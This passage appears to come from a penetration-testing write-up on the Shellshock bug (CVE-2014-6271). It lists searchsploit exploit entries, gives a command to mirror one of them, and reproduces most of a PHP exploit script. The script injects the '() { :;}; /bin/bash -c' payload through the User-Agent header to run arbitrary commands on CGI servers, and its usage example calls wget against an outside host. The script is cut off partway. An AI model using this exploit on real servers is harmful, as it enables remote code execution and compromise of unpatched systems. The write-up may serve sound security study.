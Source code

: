 ```
OpenVPN 2.2.29 - 'Shellshock' Remote Command Injection                                                                                                                         | linux/remote/34879.txt
PHP < 5.6.2 - 'Shellshock' Safe Mode / disable_functions Bypass / Command Injection                                                                                            | php/webapps/35146.txt
Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection                                                                                                            | linux/remote/34896.py
RedStar 3.0 Server - 'Shellshock' 'BEAM' / 'RSSMON' Command Injection                                                                                                          | linux/local/40938.py
Sun Secure Global Desktop and Oracle Global Desktop 4.61.915 - Command Injection (Shellshock)                                                                                  | cgi/webapps/39887.txt
TrendMicro InterScan Web Security Virtual Appliance - 'Shellshock' Remote Command Injection                                                                                    | hardware/remote/40619.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

We can mirror the exploit code from **Bash - 'Shellshock' Environment Variables Command Injection**:

```bash
searchploit -m linux/remote/34766.php
```

```php
<?php
/*
Title: Bash Specially-crafted Environment Variables Code Injection Vulnerability
CVE: 2014-6271
Vendor Homepage: https://www.gnu.org/software/bash/
Author: Prakhar Prasad && Subho Halder
Author Homepage: https://prakharprasad.com && https://appknox.com
Date: September 25th 2014
Tested on: Mac OS X 10.9.4/10.9.5 with Apache/2.2.26
	   GNU bash, version 3.2.51(1)-release (x86_64-apple-darwin13)
Usage: php bash.php -u http://<hostname>/cgi-bin/<cgi> -c cmd
	   Eg. php bash.php -u http://localhost/cgi-bin/hello -c "wget http://appknox.com -O /tmp/shit"
Reference: https://www.reddit.com/r/netsec/comments/2hbxtc/cve20146271_remote_code_execution_through_bash/

Test CGI Code : #!/bin/bash
				echo "Content-type: text/html"
				echo ""
				echo "Bash-is-Vulnerable"

*/
error_reporting(0);
if(!defined('STDIN')) die("Please run it through command-line!\n");
$x  = getopt("u:c:");
if(!isset($x['u']) || !isset($x['c']))
{
	die("Usage: ".$_SERVER['PHP_SELF']." -u URL -c cmd\n");

}
$url = $x['u'];
$cmd = $x['c'];

$context = stream_context_create(
	array(
		'http' => array(
			'method'  => 'GET',
			'header'  => 'User-Agent: () { :;}; /bin/bash -c "'.$cmd.'"'
		)
	)
```